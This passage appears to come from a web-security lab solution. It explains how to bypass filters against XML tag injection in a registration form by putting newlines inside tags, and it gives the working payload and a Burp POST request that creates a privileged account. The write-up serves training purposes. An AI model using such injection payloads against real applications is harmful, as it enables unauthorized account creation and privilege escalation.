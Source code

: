 Bypassing Filters:

- Bypassing length limitations is not enough. The application implements some filters against the XML TAG injection that blocks the previous payload.

In this case, if the filter detects some dangerous elements, it shows a message like the following:
```xml
So you wanna be a l33t member so easily?! ಠ_ಠ

# Injecting some metacharacters, we can see that &, \ , , , "" , '' are filtered but < and > are not!
```

There is another filter that blocks the and tags.

The check is case-insensitive, and it seems that spaces and tabs are ignored between the tag name and the close tag character, but if we inject a new line, it is not filtered!

So the exploitation could be the following:
```xml
name:     </name></user><user><rule{NEW_LINE}>1<!--
username: --></rule{NEW_LINE}><name></name><username>x
password: l33t
```

Now the username has a length of 35; injecting this payload, we would have an empty username and thus an invalid login.

- We need to remove something from the payload, and the tag seems to be ignored server-side.

The working exploit is:
```xml
name:     </name></user><user><rule{NEW_LINE}>1<!--
username: --></rule{NEW_LINE}><username>l33t
password: l33t
```

Inside burp the request should look as follows:
```xml
POST /add_new.php HTTP/1.1
...
name=</name></user><user><rule
>1<!--&user=--></rule
><username>l33t&password=l33t

The leet login will be:

username: l33t
password: l33t 
```

## Lab 2

Below, you can find solutions for each task. Remember, though, that you can follow your own strategy, which may be different from the one explained in the following lab.

> NOTE: The techniques to use during this lab are better explained in the study material. You should refer to it for further details. These solutions are provided here only to verify the correctness.

